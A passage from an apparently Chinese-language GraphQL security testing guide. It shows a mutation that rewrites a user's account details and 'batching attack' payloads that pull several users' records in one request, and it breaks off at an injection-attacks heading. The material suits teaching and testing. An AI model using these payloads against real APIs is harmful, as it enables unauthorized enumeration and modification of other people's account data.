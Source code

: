 ### 变更操作

GraphQL变更操作示例：

```graphql
mutation {
  updateUser(id: "1", input: {username: "hacker", email: "hacker@example.com"}) {
    user {
      id
      username
      email
    }
  }
}
```

### GraphQL批处理攻击

#### 基于JSON列表的批处理

```json
[
  {
    "query": "query { user(id: 1) { id username email } }"
  },
  {
    "query": "query { user(id: 2) { id username email } }"
  }
]
```

#### 基于查询名称的批处理

```graphql
query GetUser1 {
  user(id: 1) {
    id
    username
    email
  }
}

query GetUser2 {
  user(id: 2) {
    id
    username
    email
  }
}
```

## 注入攻击
